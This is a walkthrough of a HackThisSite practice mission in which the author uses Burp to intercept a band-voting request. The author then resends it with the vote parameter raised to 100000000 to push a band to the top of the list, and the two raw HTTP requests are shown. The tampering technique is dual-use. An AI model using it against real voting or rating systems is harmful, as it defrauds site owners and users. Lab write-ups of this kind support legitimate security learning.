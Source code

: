 # Uncle Arnold's Local Band Review
From: HeavyMetalRyan

Message: Hey man, I need a big favour from you. Remember that website I showed you once before? Uncle Arnold's Band Review Page? Well, a long time ago I made a $500 bet with a friend that my band would be at the top of the list by the end of the year. Well, as you already know, two of my band members have died in a horrendous car accident... but this ass hole still insists that the bet is on!
I know you're good with computers and stuff, so I was wondering, is there any way for you to hack this website and make my band on the top of the list? My band is Raging Inferno. Thanks a lot, man!

So when we view the web page : https://www.hackthissite.org/missions/realistic/1/

we will see that **Raging Inferno** is at the end of the list we need it to be on top 

by intercepting data using **Burp** we can find out that the request is sent with **vote value** as shown

```html
GET /missions/realistic/1/v.php?PHPSESSID=abcaeadfc31a5c43b2534bf995c0553f&id=3&vote=1 HTTP/1.1
Host: www.hackthissite.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: https://www.hackthissite.org/missions/realistic/1/
Cookie: _pk_id.1.1039=698497548ef239b8.1520769090.2.1520861954.1520861653.; PHPSESSID=picgn6dtvjl7hki6kkp3ukind6
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
so we have can intercept the vote value and change it to **100000000 or any big number** should do the trick of pushing **Raging Inferno** to top just like the one below

```html
GET /missions/realistic/1/v.php?PHPSESSID=abcaeadfc31a5c43b2534bf995c0553f&id=3&vote=100000000 HTTP/1.1
Host: www.hackthissite.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: https://www.hackthissite.org/missions/realistic/1/
Cookie: _pk_id.1.1039=698497548ef239b8.1520769090.2.1520861954.1520861653.; PHPSESSID=picgn6dtvjl7hki6kkp3ukind6
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

By Forwarding the header mentioned above we will be redirected to Hackthissite main page and the challenge is completed :D 

### Happy Hacking
